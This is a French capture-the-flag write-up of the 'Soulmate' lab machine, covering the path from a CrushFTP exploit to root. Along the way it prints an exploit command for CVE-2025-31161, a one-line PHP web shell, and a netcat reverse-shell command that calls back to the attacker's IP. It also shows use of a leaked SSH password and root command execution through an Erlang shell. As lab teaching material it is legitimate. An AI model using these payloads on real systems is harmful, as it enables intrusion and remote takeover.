

# Enumeration

On trouve un site de rencontre, on commence par se balader sur le site à la recherche de fonctionnalités. Pendant ce temps on lance en arrière-plan des scans: nmap, fuzz de dirs et fuzz de subdirs.

The website presented to us is seemingly a simple dating website. We start searching a bit on the website while we launch in the background a few scans: dirs fuzzing, subdirs fuzzing and nmaps.



# Foothold

Après notre recherche de subdirs on en trouve un `ftp.soulmate.htb`. On l'ajoute dans notre `/etc/hosts` et on se connecte au site.



On tombe sur une instance crushftp, on regarde un peu ce que l'on peut faire, on cherche sur exploitDB et on tombe sur une CVE. En cherchant un peu sur github on en trouve un qui a l'air intéressant, on l'utilise et on le lance:

https://github.com/Immersive-Labs-Sec/CVE-2025-31161

```
python3 exploit.py --target_host ftp.soulmate.htb --new_user guest --password password --port 80
```

On voit que cela fonctionne et ajoute l'utilisateur au site.



On se connecte au site avec les identifiants et on accède au site.



On se rend sur la page admin, on regarde un peu les options et on se rend sur la gestion d'utilisateur. On voit que l'on peut changer les mots de passe des utilisateurs et on change celui de ben.



On se déconnecte du site pour accéder au profil de ben, après quoi on se rend compte que l'on peut aller dans le dossier `webProd` et ajouter des fichiers. On ajoute notamment un fichier `exploit.php`, dans lequel on met le code
```
<?php echo system($_GET['command']); ?>
```



Une fois la page upload, on retourne sur le site principal, sur lequel on accède au lien suivant (après avoir lancé notre listener bien sûr) (attention à bien remplacer l'IP par la vôtre)

```
http://soulmate.htb/exploit.htb?command=busybox nc 10.10.14.15 4242 -e /bin/bash
```



On reçoit bien un shell sur notre listener, il ne nous reste qu'à stabiliser le shell pour être sûr de le garder.

```
python3 -c 'import pty;pty.spawn("/bin/bash");'
```
^Z
```
stty raw -echo; fg
stty rows 24 cols 80
export TERM=xterm-256color
exec /bin/bash
```

# LOL / Lateral movement

On commence par se balader un peu en essayant de trouver des informations utiles, on ne trouve rien alors on lance notre serveur python pour servir le fichier `linpeas.sh`.



On le télécharge et on le lance.



Normalement on voit qu'il y a quelque chose dans le fichier `/usr/local/lib/erlang_login/start.escript`, on y trouve un mot de passe pour ben:

```
HouseH0ldings998
```

On l'utilise et on se connecte avec son compte:
```
ssh ben@soulmate.htb
```

# Privilege Escalation

En faisant notre énumération, on a trouvé le script `/usr/local/lib/erlang_login/start.escript` dans lequel on trouve les identifiants de ben pour le ssh. Il se trouve que ce fichier nous indique aussi qu'un ssh erlang tourne sur le port 2222 et que l'on peut se connecter dessus avec les identifiants de ben. On se connecte alors avec
```
ssh ben@localhost -p 2222
```

Et on arrive sur un ssh erlang.



Pour comprendre comment utiliser erlang on se rend sur le site internet, sur lequel on nous donne la syntaxe de la commande help:
```
help().
```



Malheureusement cela ne nous aide pas beaucoup, on continue à chercher comment exécuter une commande et on trouve la syntaxe pour exécuter une commande os:

```
os:cmd("cat /root/root.txt").
```

Et juste comme ça on obtient notre fichier root.





